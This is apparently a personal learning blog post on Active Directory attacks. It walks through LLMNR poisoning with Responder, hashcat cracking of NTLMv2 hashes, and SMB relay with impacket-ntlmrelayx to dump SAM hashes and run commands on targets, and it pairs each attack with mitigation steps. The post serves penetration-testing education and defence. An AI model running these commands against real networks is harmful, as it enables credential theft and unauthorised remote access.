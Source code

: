 ```yaml
---
title: Active Directory Attacks
date: 2023-10-18
categories: [Learning, Active Directory]
tags: [Active Directory, AD]
author: barabulkit
---
```


## LLMNR Poisoning (Responder)

### Attack

```shell
responder -I eth0 -wdv
```

![responder_hash](/assets/img/acd/responder_hash.png)

then we can crack the hash with hashcat

```shell
hashcat -m 5600 hash.txt rockyou.txt -O
```
5600 stands for module to crack NTLM2 hashes\

and will get cracked password
![cracked](/assets/img/acd/cracked.png)

### Mitigation

 - Disable LLMNR (in `Group Policy Editor` Local Computer Policy - Computer Configureation - Administrative Templates - Network - DNS Client - `Turn off Multicast name resolution`)
 - Disable NBT-NS (Network Connections - Network Adapter Properties = TCP/IPv4 Properties - Advanced tab - Wins tab - `Disable NetBIOS over TCP/IP`)

## SMB Relay

Instead of cracking hashes gathered with `Responder`, we can relay them to specific machines and potentially gain access

### Requirments

 - SMB signing disabled on target
 - Relayed user creds must be admin on machine

### Attack

First step is to identify targets without SMB signing

```shell
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
```

![smb_signing](/assets/img/acd/smb_signing.png)

Then we need to turn off smb and http servers in responder
```shell
vim /usr/share/responder/Responder.conf
```
![turnoff](/assets/img/acd/turnoff_smb_http.png)

And then we launch responder and relayx again

There are ips of machines with `not required smb signing` in targets.txt, that we discovered with nmap on previous step
```shell
responder -I eth0 -wdv
impacket-ntlmrelayx -tf targets.txt -smb2support
```

and after receiveng connection we will get SAM hashes
![hashes](/assets/img/acd/hashes.png)

### Gaining shell

We can use 
```
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
to get interactive shell, or
```
impacket-ntlmrelayx -tf targets.txt -smb2support -e test.exe
``` 
to execute test.exe on target machine, or
```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```
to execute windows cmd command, or powershell oneliner with reverse tcp.

#### Another tools for shell gain

 - metasploit psexec
 - psexec.py
 - smbexec.py
 - wmiexec.py

### Mitigation

 - Enable SMB signing
 - Disable NTLM auth